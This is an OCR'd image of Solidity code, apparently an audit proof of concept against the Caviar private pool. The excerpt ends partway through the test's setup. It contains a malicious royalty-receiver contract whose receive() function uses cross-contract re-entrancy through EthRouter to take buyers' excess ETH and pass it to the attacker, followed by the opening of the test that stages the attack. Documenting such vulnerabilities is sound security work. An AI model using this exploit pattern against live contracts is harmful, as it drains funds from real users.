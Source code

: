 ```solidity
        nft = ERC721Royalty(_nft);
        router = EthRouter(payable(_router));
    }

    /// @notice Used to perform cross contract re-entrancy and steal excess funds from victim users.
    receive() external payable {
        // This will steal all excess tokens that are currently transferred back to the pool.
        router.buy(new EthRouter.Buy[](0), 0, false);

        // Transfer the stolen amount to the owner/exploiter.
        (bool success, ) = owner().call{value: address(this).balance}("");
        require(success);
    }
}

contract RoyaltyReceiverStealExcessEthTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721Royalty public nft;

    /// @notice The vulnerable Caviar private pool.
    PrivatePool public privatePool;

    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The excess amount of ETH that the buyer/victim will send because they believe that it will be returned to them.
    uint256 constant EXCESS = 10e18;

    /// @notice The attacker contract.
    MaliciousRoyaltyReceiver public maliciousRoyaltyReceiver;

    /// @notice Common state variables.
    uint256 public tokenId;
    address public attacker;
    address public victim;

    function setUp() public {
        // Get a reference to an ERC2981 collection on polygon mainnet.
        nft = ERC721Royalty(0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53);

        // Pick an NFT token id that will be used to perform the attack.
        tokenId = 61039189399824080078548987048376199044334241070534370230028874880716994294049;

        _deployPrivatePool();

        // Deposit the NFT to the pool.
        _depositNft(tokenId);

        // Get need addresses.
        attacker = IPixels(address(nft)).creatorOf(tokenId);
        victim = vm.addr(0x1234);

        // Deploy the attacker contract.
```